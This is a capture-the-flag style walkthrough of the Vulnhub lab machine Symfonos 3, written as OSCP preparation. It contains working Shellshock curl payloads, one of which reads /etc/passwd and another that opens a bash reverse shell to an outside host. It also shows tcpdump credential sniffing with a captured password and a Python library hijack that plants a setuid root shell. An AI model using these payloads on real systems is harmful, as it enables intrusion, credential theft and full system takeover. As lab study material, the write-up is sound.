 +++
title = "Vulnhub: Symfonos 3"
date = "2021-02-11"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Intermediate", "Vulnhub", "OSCP Prep", "ffuf", "Directory Bruteforce", "ShellShock", "Tcpdump"]
keywords = ["", ""]
description = ""
showFullContent = false
images = ["/img/symfonos1/symfonos1.png"]
+++

<!--more-->
{{< image src="/img/symfonos1/symfonos1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author | 
| ---------- | ------------ | ------ | 
| Intermediate | 7 Apr 2020 | Zayotic | 

# Summary

In this box, we need to perform some directory bruteforce then use shellshock vulnerability to get our first shell.
We then sniff local traffic using tcpdump and get credentials for the next user who has permissions to write python2.7 lib 
directory. Using those write permissions we hijack a library that is imported in a script that is executed by root in a
cron job. We create a suid bash binary that we use to get a root shell.

# Reconnaissance

Nmap

```nmap
Nmap scan report for 192.168.191.130
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## HTTP (80)

Visiting the IP on the browser, all we get is a picture.

{{< image src="/img/symfonos3/symfonos3-11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Viewing the source doesn't reveal much.

{{< image src="/img/symfonos3/symfonos3-12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Performing a recursive directory bruteforce using ffuf with recursion enabled we get several directories.

```sh
ffuf -ic -c -u http://192.168.191.130/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -recursion | tee ffuf.out.recurse
```

{{< image src="/img/symfonos3/symfonos3-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Going to the research endpoint, there's information about the Underworld and Greek mythology. 

{{< image src="/img/symfonos3/symfonos3-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the words look similar to the directories we discovered, so let's create a wordlist which maybe helpful later.

```shell
cewl http://192.168.191.130/gate/cerberus/tartarus/research -w words.txt
```
The current directories we have discovered don't have much in them. At this point I was stuck a bit, after looking at
some writeups I realized that sometimes valid directories show when you have a trailing slash at the end. So I ran ffuf again
with a trailing slash.

```shell
ffuf -ic -c -u http://192.168.191.130/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee ffuf.rootdir
```

{{< image src="/img/symfonos3/symfonos3-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this idea, cgi-bin directory is discovered. This is a nice directory bruteforce tip I'll use going forward. The presence of
cgi-bin could potentially mean we can have a shellshock vulnerability.

Running another bruteforce using the wordlist I created earlier didn't work. I then thought to get a lowercase version of the 
words and try it.

```shell
cewl --lowercase http://192.168.191.130/gate/cerberus/tartarus/research -w words2.txt

ffuf -ic -c -u http://192.168.191.130/cgi-bin/FUZZ -w words2.txt
```
{{< image src="/img/symfonos3/symfonos3-13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With the lowercase wordlist, we get underworld.

To verify the shellshock vulnerability, we can send this request.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as cerberus

After verifying this vulnerability, we can get a reverse shell.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

On running id we notice that cerberus is part of pcap group. To figure out what is unique about this group I used the find
command.

```shell
find / -group pcap -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This reveals we can run tcpdump, therefore we can sniff network traffic. 

Before sniffing traffic, I used [pspy](https://github.com/DominicBreuker/pspy) to check for cron jobs and other commands being executed.

{{< image src="/img/symfonos3/symfonos3-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this I was able to pick up a cronjob that runs as root. Since ftpclient.py is being executed, I'll sniff ftp 
traffic which isn't typically encrypted.

```shell
tcpdump port 21 -n -i lo -A
```

{{< image src="/img/symfonos3/symfonos3-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From the tcpdump traffic we get new credentials, hades : PTpZTfU4vxgzvRBE.

# Privilege Escalation

Using the credentials we login to ssh as hades, running id reveals hades is in gods group.

{{< image src="/img/symfonos3/symfonos3-14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Running find again reveals we have write permissions to /usr/lib/python2.7 folder.

```shell
find / -group gods -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-15.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Based on the earlier output of pspy, we saw a cronjob that was running as root and python2.7 was being executed. Therefore we can hijack
any imports in that ftpclient.py script.

{{< image src="/img/symfonos3/symfonos3-16.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Since ftplib is imported, we'll replace ftplib.py with this script

```py
import os

os.system('cp /bin/bash /tmp/bash')
os.system('chmod +s /tmp/bash')
```

{{< image src="/img/symfonos3/symfonos3-17.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This will create a setuid bash binary in /tmp. Which can use to gain root privileges.

{{< image src="/img/symfonos3/symfonos3-18.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

